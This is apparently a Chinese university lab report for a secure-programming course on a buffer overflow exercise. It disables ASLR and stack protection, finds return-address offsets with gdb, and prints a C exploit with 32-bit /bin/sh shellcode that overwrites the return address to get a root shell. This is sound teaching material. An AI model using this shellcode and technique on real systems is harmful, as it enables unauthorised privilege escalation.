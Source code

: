 



<img src="Lab2.3.assets/1.png" alt="1" style="zoom:80%;" />



<center><font face="Arial" size="6">Buffer Overflow Vulnerability</font>


<img src="Lab2.3.assets/2.png" alt="2" style="zoom:90%;" />



<center>
    <font face="楷体" size="5">姓名：欧翌昕</font>
</center>

<center>
    <font face="楷体" size="5">专业：软件工程</font>
</center>
<center>
    <font face="楷体" size="5">学号：3190104783</font>
</center>

<center>
    <font face="楷体" size="5">课程名称：安全编程技术</font>
</center>
<center>
    <font face="楷体" size="5">指导老师：胡天磊</font>
</center>


<center>
    </font><font face="黑体" size="5">2020~2021春夏学期 2021 年 6 月 11 日</font>
</center>



# 1 实验目的

本实验的学习目标是将课堂上学到的关于缓冲区溢出漏洞的知识付诸实践，从而获得有关缓冲区溢出漏洞的第一手经验。 缓冲区溢出被定义为程序试图将数据写入超出预先分配的固定长度缓冲区边界的情况。 恶意用户可以利用此漏洞来改变程序的流量控制，甚至执行任意代码段。 这个漏洞是由于数据存储（例如缓冲区）和控件存储（例如返回地址）混合造成的：数据部分的溢出会影响程序的控制流，因为溢出可以改变返回地址。

在本实验中，我们将获得一个具有缓冲区溢出漏洞的程序； 任务是开发一个利用漏洞的方案，并最终获得 root 权限。

# 2 实验平台

![image-20210614004843318](Lab2.3.assets/image-20210614004843318.png)

# 3 实验内容与步骤

本次实验采用32位 Ubuntu 使用的传参方式对源代码进行编译。

首先在 `\etc\apt\sources.list` 中修改镜像源配置为：

```
deb http://old-releases.ubuntu.com/ubuntu/ precise main restricted universe multiverse
deb http://old-releases.ubuntu.com/ubuntu/ precise-security main restricted universe
multiverse
deb http://old-releases.ubuntu.com/ubuntu/ precise-updates main restricted universe
multiverse
deb http://old-releases.ubuntu.com/ubuntu/ precise-proposed main restricted universe
multiverse
deb http://old-releases.ubuntu.com/ubuntu/ precise-backports main restricted universe
multiverse
```

然后安装安装32位的编译方式和必要的组件，结果如下图所示：

![image-20210613215329163](Lab2.3.assets/image-20210613215329163.png)

Ubuntu 和其他 Linux 发行版已经实施了多种安全机制来使缓冲区溢出攻击变得困难。 为了简化我们的攻击，我们需要先禁用它们。

Ubuntu 和其他几个基于 Linux 的系统使用地址空间随机化来随机化堆和堆栈的起始地址。 这使得猜测确切地址变得困难，而猜测地址是缓冲区溢出攻击的关键步骤之一。 在本实验中，我们禁用这些功能结果如下图所示：

![image-20210614004336840](Lab2.3.assets/image-20210614004336840.png)

要创建易受攻击的程序，创建以下内容的 C 文件：

![image-20210613220540117](Lab2.3.assets/image-20210613220540117.png)

GCC 编译器实现了一种称为“堆栈保护”的安全机制，以防止缓冲区溢出。 在存在这种保护的情况下，缓冲区溢出将不起作用。 可以在使用开关 -fno-stack-protector 编译程序时禁用此保护。

编译生成可执行文件 stack，使用的命令如下：

```shell
$gcc -g -z execstack -fno-stack-protector -o stack stack.c
```

使用 gdb 调试可执行程序 stack。

![image-20210613230724554](Lab2.3.assets/image-20210613230724554.png)

使用 disass 命令来查看 `bof` 函数的汇编代码，结果如下图所示：

![image-20210613230931255](Lab2.3.assets/image-20210613230931255.png)

strcpy 传入的参数包括 str 和 buffer 两个指针，根据从右到左的压栈顺序可知 buffer 对应的地址存放在 0x08048491 处的寄存器 eax 中。在此处设置断点并启动运行，结果如下图所示：

![image-20210613232947558](Lab2.3.assets/image-20210613232947558.png)

查看寄存器 eax 中存放的值即 buffer 对应的地址，结果如下图所示：

![image-20210613233401116](Lab2.3.assets/image-20210613233401116.png)

同理，设置断点查地址 0x08048485 处的寄存器 esp 中的值，结果如下图所示：

![image-20210613234356429](Lab2.3.assets/image-20210613234356429.png)

因为 ebf 也被压入堆栈，所以 bof 的返回地址为 0xbffff128。计算 bof 初始地址与返回地址的差值为 0xbffff128 + 4 - 0xbffff114 = 24。如果参数 buffer 需要覆盖掉返回地址，那么需要修改 buffer+24 处的返回地址。

因此，可以在buffer+24 处填入返回地址，返回的地址指向 shellcode 存放的地址，假设为 buffer+0x100 处即 0xbffff114 + 0x100 = 0xbffff214。

编写以下溢出攻击代码：

```c
/*exploit.c*/
/*A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/*Shellcode as follow is for linux 32bit. If your linux is a 64bit system, you need to replace "code[]" with the 64bit shellcode we talked above.*/
const char code[] =
  "\x31\xc0" /*Line 1: xorl %eax,%eax*/
  "\x50" /*Line 2: pushl %eax*/
  "\x68""//sh" /*Line 3: pushl $0x68732f2f*/
  "\x68""/bin" /*Line 4: pushl $0x6e69622f*/
  "\x89\xe3" /*Line 5: movl %esp,%ebx*/
  "\x50" /*Line 6: pushl %eax*/
  "\x53" /*Line 7: pushl %ebx*/
  "\x89\xe1" /*Line 8: movl %esp,%ecx*/
  "\x99" /*Line 9: cdq*/
  "\xb0\x0b" /*Line 10: movb $0x0b,%al*/
  "\xcd\x80" /*Line 11: int $0x80*/
  ;
void main(int argc, char **argv) { 
  char buffer[517]; 
  FILE *badfile;
  
  /* Initialize buffer with 0x90 (NOP instruction) */
  memset(&buffer, 0x90, 517);
  
  strcpy(buffer+24, "\x14\xf2\xff\xbf");
  strcpy(buffer+100, code);
  
  /* Save the contents to the file "badfile" */
  badfile = fopen("./badfile", "w");
  fwrite(buffer, 517, 1, badfile);
  fclose(badfile);
  }
```

编译后按如下方式运行，成功得到系统的 shell，结果如下图所示：

![image-20210614004301184](Lab2.3.assets/image-20210614004301184.png)
